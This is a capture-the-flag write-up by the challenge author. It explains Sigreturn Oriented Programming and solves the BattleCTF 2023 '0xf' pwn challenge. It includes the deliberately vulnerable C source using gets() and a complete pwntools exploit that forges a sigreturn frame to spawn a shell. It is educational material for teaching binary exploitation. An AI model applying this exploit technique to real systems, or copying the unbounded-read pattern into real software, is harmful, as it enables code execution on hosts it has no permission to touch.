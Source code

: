 # 0xf Writeup [Pwn]

Challenge : [0xf](https://github.com/0xbugpwn/battleCTF-2023/tree/main/Prequal/Pwn/0xf)

## SROP Challenge from BattleCTF 2023 Qualifier


This is one of the pwn challenges I wrote for Africa BattleCTF 2023. The goal of the challenge is to teach the exploitation technique using SROP.


## Explanation of Sigreturn Oriented Programming (SROP)

### What is SROP?

`Sigreturn Oriented Programming (SROP)` is an exploitation technique that leverages the sigreturn `syscall` to manipulate the CPU's registers and execute arbitrary code. This method relies on constructing a fake signal frame, a structure typically created by the kernel during signal handling, and using it to set up the registers as needed for exploitation.


### Key Components of SROP

1. Sigreturn System Call:

	* The `sigreturn` syscall is invoked with `eax = 0x77` on x86 or `rax = 0xf` on x64.

	* It restores the CPU state from a memory location pointed to by the stack pointer (`rsp` on x64).

2. Fake Signal Frame:

	* This structure mimics the state saved by the kernel during signal handling.

	* By crafting this frame, attackers control register values such as `rip` (instruction pointer), `rax` (syscall number), and others required for system calls.

3. System Call Execution:

	* After restoring registers, the next instruction (typically a syscall) is executed with the manipulated state.

4. Prerequisite Vulnerability:

	* A buffer overflow or similar vulnerability is required to control the stack and inject the crafted signal frame.



### Exploitation Flow

1. Trigger Buffer Overflow:

	* Overwrite the saved return address to point to a gadget that sets `eax = 0x77` (for x86) or `rax = 0xf` (for x64).

2. Prepare Fake Signal Frame:

	* Construct the signal frame in writable memory, setting registers as required for the intended syscall.

3. Invoke Sigreturn:

	* Use a gadget to execute the `sigreturn` syscall, restoring the crafted CPU state.

4. Execute Payload:

	* The manipulated registers now execute the intended system call, such as `execve` to spawn a shell.




## BattleCTF 2023 SROP Challenge


This challenge involves exploiting a vulnerable binary to spawn a shell using SROP. The binary provides a buffer overflow vulnerability.


Source Code

```py
//gcc -fno-stack-protector -no-pie syscall.c -o syscall
#include <stdio.h>
#include <stdlib.h>

static char* gbeto = "/bin/sh";

void hausa() {
    __asm__(  
          "mov $0xf, %eax;"  
          "ret;"
          "syscall;"
          "ret"
            );
}

int main() {
    printf("Africa battle CTF 2023\n");
    printf("Tell us about your ethnicity:\n");

    char buf[0x30];
    gets(buf);
}
```

![hausa](datas/hausa.png)

![gbeto](datas/gbeto.png)

#### Vulnerability Breakdown

1. **Buffer Overflow**: The **gets** function in main allows unbounded input, enabling overflow and control of the saved return address.

2. **Syscall Facilitation**: The **hausa** function provides an inline assembly block to prepare and invoke **syscalls**.

3. **Static String**: **gbeto** contains the address of **/bin/sh**, which can be used as an argument to **execve**.



### Exploitation Plan

The exploitation targets **execve("/bin/sh", NULL, NULL)** by:

1. Overwriting the return address with a gadget that sets **rax = 15** (sigreturn syscall).

2. Crafting a fake signal frame to prepare the registers for **execve**.

3. Triggering **sigreturn** to restore the CPU state and execute the syscall.

#### Key Components

* Gadgets:

	* **moveax**: Address at **hausa + 4**, sets **rax = 15**.

	* **syscall**: Address at **hausa + 10**, triggers **syscall** execution.

* Writable Memory:

	* **gbeto** contains **/bin/sh** at a static address (**0x402004**), suitable for **execve**.

* Registers Setup:

	* **rax = SYS_execve** (59)

	* **rdi = Address of "/bin/sh"**

	* **rsi = NULL**

	* **rdx = NULL**


## Exploit Code


```py
from pwn import *

context.arch = 'amd64'

sh = process("./0xf")

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1009)


# Create Sigreturn Frame
frame = SigreturnFrame(kernel='amd64')
frame.rax = constants.SYS_execve     # System call number for execve
frame.rdi = 0x402004                 # Address of "/bin/sh"
frame.rsi = 0                        # NULL (no arguments)
frame.rdx = 0                        # NULL (no environment)
frame.rip = 0x401140                 # Address to execute syscall

# Payload construction
payload = b'A' * (0x30 + 8)           # Buffer overflow and saved return address
payload += p64(0x40113a)              # Set rax = 15 (sigreturn)
payload += p64(0x401140)              # Trigger sigreturn
payload += bytes(frame)               # Inject fake SigreturnFrame

# Send payload
sh.sendline(payload)
sh.interactive()
```

### Exploit Output

Running the exploit results in the following:

![exploit](datas/exploit.png)
